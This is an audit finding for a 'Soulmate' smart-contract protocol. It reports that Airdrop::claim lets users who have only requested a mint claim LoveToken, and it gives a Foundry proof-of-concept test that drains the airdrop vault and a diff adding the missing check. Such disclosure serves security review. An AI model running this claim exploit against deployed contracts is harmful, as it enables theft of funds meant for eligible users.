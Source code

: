 ## Vulnerability Details
`Airdrop::claim` fails to account for users in a "waiting" state, identifiable when `soulmateContract.idToCreationTimestamp(soulmateContract.ownerToId(msg.sender))` returns zero. The protocol's logic intends for only paired users to access these rewards; however, due to this oversight, any user who has merely initiated a minting request can exploit this loophole to claim rewards, bypassing the intended eligibility criteria.

Proof of code:

```javascript

    function test_soulInWaitingCanStealFundsFromAirdropVault() public {
        uint256 balanceUser1;
        uint256 balanceAirdropVault;
        uint256 currentUnixEpoch = 1707922532;

        console2.log("timestamp: ", block.timestamp); // 1 by default on anvil
        vm.warp(block.timestamp + currentUnixEpoch);
        console2.log("timestamp: ", block.timestamp);

        vm.startPrank(user1);
        soulmateContract.mintSoulmateToken();
        airdropContract.claim();
        vm.stopPrank();

        balanceUser1 = loveToken.balanceOf(user1);
        balanceAirdropVault = loveToken.balanceOf(address(airdropVault));

        assertLt(0, balanceUser1);
        assertGt(500_000_000 ether, balanceAirdropVault);
        assertEq(balanceUser1 + balanceAirdropVault, 500_000_000 ether);
    }
```

## Impact
 Unauthorized claims by unpaired users can lead to the depletion of resources in the Airdrop Vault, intended for legitimately paired users, undermining trust in the protocol's governance and potentially destabilizing its economic model

## Tools Used
Manual review.

## Recommendations
Implement an appropriate check in `Airdrop::claim` as follows:

```diff
    function claim() public {
        // No LoveToken for people who don't love their soulmates anymore.
        if (soulmateContract.isDivorced()) revert Airdrop__CoupleIsDivorced();
+      require( soulmateContract.idToCreationTimestamp(soulmateContract.ownerToId(msg.sender)) != 0, "Unpaired souls cannot claim!");

        // Calculating since how long soulmates are reunited
        uint256 numberOfDaysInCouple = (
            block.timestamp - soulmateContract.idToCreationTimestamp(soulmateContract.ownerToId(msg.sender))
        ) / daysInSecond;

        uint256 amountAlreadyClaimed = _claimedBy[msg.sender];

        if (amountAlreadyClaimed >= numberOfDaysInCouple * 10 ** loveToken.decimals()) {
            revert Airdrop__PreviousTokenAlreadyClaimed();
```